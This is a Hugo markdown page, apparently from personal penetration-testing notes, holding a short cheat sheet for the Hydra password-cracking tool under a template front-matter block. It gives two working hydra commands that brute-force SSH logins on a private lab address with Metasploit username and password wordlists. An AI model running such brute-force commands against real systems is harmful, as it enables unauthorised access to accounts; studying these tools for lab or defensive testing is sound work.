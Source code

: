 ```yaml
---
### The title for the content.
title : "Hydra"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "hydra"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "Hydra description."
### The datetime assigned to this page.
date : 2020-03-10T16:43:45+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "hydra"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [""]
---
```


## Hydra

### known username, password list

root with passwordlist, null password, login as pass and reversed login as pass.

```bash
hydra -v -V -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.168.88.129 ssh -t 8 -e nsr
```

### user list, password list

userlist with passwordlist, null password, login as pass and reversed login as pass looped around users.

```bash
hydra -v -V -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.168.88.129 ssh -t 8 -e nsr -u
```
